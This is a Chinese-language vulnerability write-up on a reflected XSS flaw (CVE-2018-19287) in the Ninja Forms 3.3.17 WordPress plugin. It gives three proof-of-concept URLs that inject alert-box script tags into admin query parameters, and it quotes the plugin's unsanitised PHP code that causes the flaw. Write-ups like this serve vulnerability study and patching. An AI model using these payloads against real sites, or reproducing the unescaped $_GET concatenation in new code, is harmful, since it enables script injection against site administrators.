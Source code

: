 # （CVE-2018-19287）WordPress Plugin - Ninja Forms 3.3.17 XSS

> 原文：[http://book.iwonder.run/0day/Wordpress/24.html](http://book.iwonder.run/0day/Wordpress/24.html)

## 一、漏洞简介

Ninja Forms 是 WordPress 的终极免费表单创建工具。使用简单但功能强大的拖放式表单创建器在几分钟内构建表单。对于初学者，可以快速轻松地设计复杂的表单，绝对没有代码。对于开发人员，利用内置的钩子，过滤器，甚至自定义字段模板，使用 Ninja Forms 作为框架，在表单构建或提交的任何步骤中执行您需要的任何操作。

## 二、漏洞影响

## 三、复现过程

下面是我从 exploit-db 上复制的 POC，为了方便判断，修改了弹窗的内容。

```
http://0-sec.org/wp-admin/edit.php?s&post_status=all&post_type=nf_sub&action=-1&form_id=1&nf_form_filter&begin_date&end_date="><img+src=mtk+onerror=alert(/POC1/);//&filter_action=Filter&paged=1&action2=-1 
```

```
http://0-sec.org/wp-admin/edit.php?s&post_status=all&post_type=nf_sub&action=-1&form_id=1&nf_form_filter&begin_date="><img+src=mtk+onerror=alert(/POC2/);//&end_date&filter_action=Filter&paged=1&action2=-1 
```

```
http://0-sec.org/wp-admin/edit.php?post_status=trash&post_type=nf_sub&form_id=1"><script>alert(/POC3/);</script>&nf_form_filter&paged=1 
```

我们只要直接复制 POC 到浏览器的地址栏回车即可触发漏洞。

下图是触发第一个 POC 的图：

![image](img/1e1a5056dd795583fe6c9680fa98b9d5.png)

下图是触发第二个 POC 的图：

![image](img/0d5268f29d7c44dcbce6375441078bdf.png)

下图是触发第三个 POC 的图：

![image](img/1e4cb45128d23a3524190bbf03ed058d.png)

### 漏洞分析过程

笔者直接从 POC 方面入手，简单分析一下漏洞的成因。由于方法是一样的，笔者是一个懒人，这里就只分析了 POC3 的成因。

通过 POC 查找关键词 nf_sub，确定了核心文件\wp-content\plugins\ninja-forms\includes\Admin\Menus\Submissions.php。

下图是 Submissions.php 部分内容：

![image](img/326bdee8ff75d1d066b02b1c465f2bf2.png)

通过粗略的阅读，发现这个函数是导致 POC3 成功弹窗的关键。

下图是 Submissions.php 文件第 71-104 行内容：

```
public function change_views( $views )

{

    // Remove our unused views.

    unset( $views[ 'mine' ] );

    unset( $views[ 'publish' ] );

    // If the Form ID is not empty...

    if( ! empty( $_GET[ 'form_id' ] ) ) {

        // ...populate the rest of the query string.

        $form_id = '&form_id=' . $_GET[ 'form_id' ] . '&nf_form_filter&paged=1';

    } else {

        // ...otherwise send in an empty string.

        $form_id = '';

    }

    // Build our new views.

    $views[ 'all' ] = '<a href="' . admin_url( 'edit.php?post_status=all&post_type=nf_sub'  ) . $form_id . '">'

                    . __( 'Completed', 'ninja-forms' ) . '</a>';

    $views[ 'trash' ] = '<a href="' . admin_url( 'edit.php?post_status=trash&post_type=nf_sub' ) . $form_id . '">'

                        . __( 'Trashed', 'ninja-forms' ) . '</a>';

    // Checks to make sure we have a post status.

    if( ! empty( $_GET[ 'post_status' ] ) ) {

        // Depending on the domain set the value to plain text.

        if ( 'all' == $_GET[ 'post_status' ] ) {

            $views[ 'all' ] = __( 'Completed', 'ninja-forms' );

        } else if ( 'trash' == $_GET[ 'post_status' ] ) {

            $views[ 'trash' ] = __( 'Trashed', 'ninja-forms' );

        }

    }

    return $views;

} 
```

从上面代码，我们可以看到，form_id 并没有被过滤，导致 XSS 存在。

```
$form_id = '&form_id=' . $_GET[ 'form_id' ] . '&nf_form_filter&paged=1'; 
```

## 四、参考链接

> [https://www.exploit-db.com/exploits/45880/](https://www.exploit-db.com/exploits/45880/)
> 
> [https://www.freebuf.com/vuls/190411.html](https://www.freebuf.com/vuls/190411.html)

